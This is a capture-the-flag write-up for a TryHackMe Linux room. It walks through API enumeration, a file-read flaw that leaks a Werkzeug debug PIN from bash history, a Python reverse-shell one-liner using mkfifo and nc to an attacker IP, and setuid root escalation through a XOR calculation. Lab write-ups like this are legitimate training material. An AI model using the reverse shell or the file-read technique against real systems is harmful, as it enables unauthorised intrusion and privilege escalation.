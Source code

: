 ```yaml
---
title: "Billing"
date: 2024-03-08
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```



## Enumeration

```php
nmap -sVC 10.10.130.198 -oA nmap/nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-23 14:08 +0545
Nmap scan report for 10.10.130.198 (10.10.130.198)
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.72 seconds
```

So we have three ports open.
Port 22,80 and 5000.
Lets first see the port 80.
![](Pasted%20image%2020250523141205.png)

Hmm lets see the source and do directory busting.
![](Pasted%20image%2020250523141355.png)

Hmm it might be useful.
Lets also see directory busting result.
![](Pasted%20image%2020250523141259.png)

So there is login page.
![](Pasted%20image%2020250523141518.png)

Simple creds like `admin:admin` and `admin:password` didn't worked too.
Hmm nothing interesting here.

Lets also see port 5000.
![](Pasted%20image%2020250523141720.png)

Hmmm REST API v2.0.
And we have also seen `/robots.txt` in nmap scan.
![](Pasted%20image%2020250523141818.png)
Hmm lets go on `/api`.
![](Pasted%20image%2020250523141904.png)

Hmmm interesting.
So we got `/api/v2/resources/books` and different parameter which will perform different actions like getting book from id,author,published etc. as well as different end point like 
```
/api/v2/resources/books/al
/api/v2/resources/books/random4
```

Hmm very interesting.

Going to all, we can see all books and details in json format.
![](Pasted%20image%2020250523142333.png)

As well as enumeration gave me this.
![](Pasted%20image%2020250523142641.png)

Hmm `/console`.
Lets see that too.
![](Pasted%20image%2020250523142715.png)

Hmm we can access the console where we can run python but we need a pin.

The pin example is `118-831-072` and this is very hard to bruteforce.

Now my thought is there is some vulnerability in that parameters.
![](Pasted%20image%2020250523143156.png)

Hmmm and another thing is the api is v2.
So there might be v1 where it might be vulnerable.
Lets see.

Yeah we can do same thing with `/v1` too.
![](Pasted%20image%2020250523143512.png)

But we also need to find the vulnerability here.
Lets try fuzzing different things like the values of these parameters, another parameters, etc.

**api parameters and end points**

```
/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

After trying different fuzzing, we can see this.
```zsh
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://10.10.130.198:5000/api/v1/resources/books?FUZZ=test'
```
![](Pasted%20image%2020250523144244.png)

## Exploit

So there is a parameter named `show`.
Lets see what we got.
![](Pasted%20image%2020250523144326.png)


Hmmm we got this `werkzeug` error saying *filename is not defined.*
**Can we provide the filename in this paramater?**

Lets see.
Ohh yes.
![](Pasted%20image%2020250523144550.png)

Hmm so we need that pin or we need some cred or we need ssh key.
Lets see what can we do.

And after reading `/etc/passwd`, i tried this.
![](Pasted%20image%2020250523144733.png)

So we can go into user sid's home directory.
**Can we read id_rsa?**
Lets see.
Ohh there is no `id_rsa`.
![](Pasted%20image%2020250523144903.png)

Hmm so we need that pin somehow.
I spend some time trying to search for a file where pin might be stored and search in docs too.

link:https://werkzeug.palletsprojects.com/en/stable/debug/
![](Pasted%20image%2020250523145211.png)

Hmm so it can be set by user itself and stored in environment variable.
I did some research on how to see environment variable.
![](Pasted%20image%2020250523145442.png)
But didn't succeed.
And i stared to enumerate other files if they have any creds and i came to `.bash_history` file of user sid.
And got this.
![](Pasted%20image%2020250523145701.png)
Hmm.
We found the pin.
He had set the PIN environment variable himself.

Lets use that pin to get debug page.
And we can access the debug page.
![](Pasted%20image%2020250523145957.png)

## Foothold

Now lets get reverse shell by this.
```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.6.50.101 9999 >/tmp/f")
```

We will get the shell as user sid.
As well as in the sid's home directory, we can see this.
![](Pasted%20image%2020250523160735.png)

## Privilege Escalation

A binary with setuid of the root.
I transfered it in my local machine and decompiled it.
I am weak at reversing and analysing decompiled binary so i gave it to the deepseek and i understand little.

So what the binary does is, it ask the user for a *magic number*.
![](Pasted%20image%2020250523161134.png)

And it compares it to another specific value(lets call that a) but it doesn't simply compare.
It first xor out input with another values and compares the final value with that 'a'.
So we need to pass that value which will lastly result in that 'a'. If this happens it will run `/bin/bash -p` giving us root.

So for that we can use the characteristics of xor.
I tried explaining it well but i think i couldn't i guess.
Here is the code.
```python
local_18 = 0x5db3      # 0x5db3 = 23987
xor_const1 = 0x1116    # 0x1116 = 4374
target = 0x5dcd21f4    # 0x5dcd21f4 = 1573253620

magic_number = target ^ local_18 ^ xor_const1

print(f"Magic number (decimal): {magic_number}")
print(f"Magic number (hex): {hex(magic_number)}")
```

So in short,
there is a,b,c,d.
we know the value of b,c,d and we need to find the value of a.
For that we can use xor cause to compare our input number to target, there is a use of xor.
So at last the a would be this.
`a = b^c^d`
And a would be the magic number.
![](Pasted%20image%2020250523162844.png)

And by putting this value we can get root.

## Done

And done.
![](Pasted%20image%2020250523160516.png)


Lots of thing learned like API, little bit reversing and many more.
